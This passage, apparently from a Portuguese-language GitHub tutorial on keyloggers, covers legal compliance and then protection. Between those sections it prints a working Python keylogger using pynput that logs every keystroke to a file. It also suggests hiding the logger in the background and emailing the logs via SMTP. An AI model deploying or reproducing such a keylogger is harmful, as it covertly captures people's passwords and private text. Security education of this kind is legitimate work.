     * 🛡️ Transparência e regulamentação: A prática deve estar claramente prevista em políticas internas, termos de uso ou contratos, e seguir as leis vigentes.

    * 🧑‍⚖️ Conformidade com normas: Organizações devem se alinhar com normas como a LGPD, GDPR, HIPAA (para saúde), entre outras regulamentações específicas.

➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖

## 📝 Exemplo educacional de implementação (Python)
  ###  ** Nota: Esse trecho é apenas para aprendizado. Não use para fins ilegais. **

  #### 🔧 Ferramentas:
    Linguagem: Python
    Bibliotecas: pynput ou keyboard
    
⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤

  #### 🧾 Código básico com pynput:

    from pynput import keyboard
    
    def on_press(key):
        try:
            with open("log.txt", "a") as file:
                file.write(f"{key.char}")
        except AttributeError:
            with open("log.txt", "a") as file:
                file.write(f"[{key}]")
    
    with keyboard.Listener(on_press=on_press) as listener:
        listener.join()

⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤

  #### 💻 Esse script:
  * Escuta todas as teclas digitadas;
    
  * Grava os dados em um arquivo log.txt;

  * Funciona de forma invisível ao usuário.

⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤⏤

  #### 🔐 Melhorias possíveis
  * Execução em background;

  * Envio dos logs por e-mail (SMTP);

  * Identificação de janelas ativas (ex: saber em qual programa o texto foi digitado).

➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖➖

## 🛡️ Como se Proteger de Keyloggers

Diante da capacidade invasiva dos keyloggers e dos riscos que eles representam à privacidade e segurança digital, é essencial adotar medidas preventivas eficazes. A proteção contra esse tipo de ameaça não depende de uma única ação, mas sim de um conjunto de boas práticas, ferramentas de segurança e hábitos conscientes no uso de sistemas e redes.
